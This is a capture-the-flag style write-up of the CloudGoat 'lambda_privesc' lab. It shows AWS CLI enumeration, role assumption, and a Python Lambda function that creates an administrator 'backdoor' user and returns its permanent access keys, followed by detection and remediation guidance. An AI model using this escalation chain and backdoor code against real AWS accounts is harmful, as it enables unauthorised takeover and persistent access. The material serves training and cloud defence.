

# CloudGoat Lab: lambda_privesc
### Privilege Escalation via Lambda and IAM Role Abuse

**Platform:** [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) by Rhino Security Labs  
**Difficulty:** Easy  
**Author:** Justin Steele

---

## Background

This is my third CloudGoat lab. The first two were about IAM misconfigurations on users and policies directly. This one adds Lambda into the mix, which opens up a completely different escalation path.

The core idea: if you can create a Lambda function and pass a powerful IAM role to it, you can run arbitrary code as that role. You never have to touch your own permissions. You just make a service do the work for you.

`iam:PassRole` is what makes this possible, and it's one of the most dangerous permissions in AWS that doesn't get flagged often enough.

---

## Environment

Spun up with:

```bash
cloudgoat create lambda_privesc --profile default
```

Starting point: credentials for a low-privilege IAM user named **chris**. Goal: get persistent admin access.

---

## Attack Chain



---

## Walkthrough

### Step 1 - Who Am I?

```bash
aws sts get-caller-identity --profile chris
```

Result: `arn:aws:iam::223367517417:user/chris-cgidmua7sm2ob1` -- plain IAM user.

---

### Step 2 - What Can Chris Do?

```bash
aws iam list-attached-user-policies --user-name chris-cgidmua7sm2ob1 --profile chris
aws iam get-policy-version \
  --policy-arn arn:aws:iam::223367517417:policy/cg-chris-policy-cgidmua7sm2ob1 \
  --version-id v1 --profile chris
```

Chris had three permissions: `sts:AssumeRole`, `iam:List*`, and `iam:Get*`. The interesting one was AssumeRole -- I needed to find out which roles he could actually use.

---

### Step 3 - Find Assumable Roles

```bash
aws iam list-roles --profile chris
```

Two CloudGoat roles in the output:

| Role | Trusted By |
|------|-----------|
| cg-debug-role | lambda.amazonaws.com |
| cg-lambdaManager-role | chris specifically |

The lambdaManager role was configured to trust Chris by ARN. That's the entry point.

---

### Step 4 - Read the lambdaManager Policy

```bash
aws iam list-attached-role-policies \
  --role-name cg-lambdaManager-role-cgidmua7sm2ob1 --profile chris
aws iam get-policy-version \
  --policy-arn arn:aws:iam::223367517417:policy/cg-lambdaManager-policy-cgidmua7sm2ob1 \
  --version-id v1 --profile chris
```

Two powerful permissions: `lambda:*` and `iam:PassRole` on `Resource: *`.

`iam:PassRole` is the key. It lets you attach any IAM role to a Lambda function, which means you can make Lambda run code as a role you could never directly assume yourself.

---

### Step 5 - Check the Debug Role

```bash
aws iam list-attached-role-policies \
  --role-name cg-debug-role-cgidmua7sm2ob1 --profile chris
```

The debug role had **AdministratorAccess**. A Lambda debug role with full admin access is the misconfiguration that makes this attack devastating.

---

### Step 6 - Assume the lambdaManager Role

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::223367517417:role/cg-lambdaManager-role-cgidmua7sm2ob1 \
  --role-session-name lambdaManager \
  --profile chris
```

Got temporary credentials. Configured them as a new profile called `lambdamanager`.

---

### Step 7 - Write and Deploy the Malicious Function

```python
import boto3

def lambda_handler(event, context):
    iam = boto3.client('iam')
    iam.create_user(UserName='backdoor')
    iam.attach_user_policy(
        UserName='backdoor',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    keys = iam.create_access_key(UserName='backdoor')
    return {
        'AccessKeyId': keys['AccessKey']['AccessKeyId'],
        'SecretAccessKey': keys['AccessKey']['SecretAccessKey']
    }
```

```bash
zip -j /tmp/lambda_function.zip /tmp/lambda_function.py

aws lambda create-function \
  --function-name privesc \
  --runtime python3.9 \
  --role arn:aws:iam::223367517417:role/cg-debug-role-cgidmua7sm2ob1 \
  --handler lambda_function.lambda_handler \
  --zip-file fileb:///tmp/lambda_function.zip \
  --profile lambdamanager
```

The function is deployed with the debug role (AdministratorAccess) attached. When invoked, it runs as that role.

---

### Step 8 - Invoke and Get Backdoor Credentials

```bash
aws lambda invoke --function-name privesc --profile lambdamanager /tmp/output.json
cat /tmp/output.json
```

The function created a backdoor IAM user with AdministratorAccess and returned permanent access keys. Unlike the temporary lambdamanager credentials, these don't expire.

---

### Step 9 - Verify Full Access

```bash
aws configure set aws_access_key_id <key> --profile backdoor
aws configure set aws_secret_access_key <secret> --profile backdoor
aws configure set region us-east-1 --profile backdoor
aws iam list-users --profile backdoor
```

Full access confirmed. Persistent backdoor in place.

---

## Why This Attack Works

You never escalate your own permissions directly. You create a function that runs as a more powerful identity. This is why `iam:PassRole` is so dangerous -- it's not about what you can do, it's about what you can make a service do on your behalf.

Lambda, EC2, ECS, Glue -- any AWS service that accepts a role is a potential escalation vector if PassRole is too permissive.

---

## Detection

### CloudTrail

The full attack chain is logged: AssumeRole, CreateFunction, InvokeFunction, CreateUser, AttachUserPolicy, CreateAccessKey. A CloudWatch alarm on IAM user creation from a Lambda execution role would catch this:

```bash
{ ($.eventName = "CreateUser") && ($.userIdentity.sessionContext.sessionIssuer.type = "Role") }
```

See [`detections/cloudwatch_alarm.sh`](detections/cloudwatch_alarm.sh) for the full setup.

### GuardDuty

Would flag anomalous IAM API calls from a Lambda execution role that has never made them before.

### IAM Access Analyzer

Would surface `iam:PassRole` on `Resource: *` as an overly permissive finding.

---

## Remediation

See [`remediation/fix_lambda_privesc.sh`](remediation/fix_lambda_privesc.sh) for a cleanup and hardening script.

| Priority | Fix |
|----------|-----|
| Critical | Scope `iam:PassRole` to specific role ARNs, never `Resource: *` |
| Critical | Remove AdministratorAccess from the debug role -- least privilege applies to Lambda too |
| Critical | Scope `sts:AssumeRole` to specific roles Chris actually needs |
| High | Alert on CreateFunction and InvokeFunction from non-standard principals |
| High | Scope Lambda trust policies to specific function ARNs |
| Medium | Enable GuardDuty to detect anomalous Lambda execution role behavior |
| Medium | Audit all roles trusted by lambda.amazonaws.com and verify their permissions |

---

## Root Cause

Four misconfigurations that stacked into a full persistent compromise:

1. Chris had `sts:AssumeRole` on `Resource: *` instead of specific roles
2. `iam:PassRole` was granted on `Resource: *` instead of specific role ARNs
3. The debug role had AdministratorAccess with no justification
4. The debug role trusted all of `lambda.amazonaws.com` instead of specific functions

---

## Tools Used

- [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) -- vulnerable-by-design AWS environment
- Terraform -- infrastructure provisioning
- AWS CLI -- enumeration and exploitation
- Python -- Lambda function payload

---

*Built on CloudGoat by Rhino Security Labs. Scenario: `lambda_privesc`.*
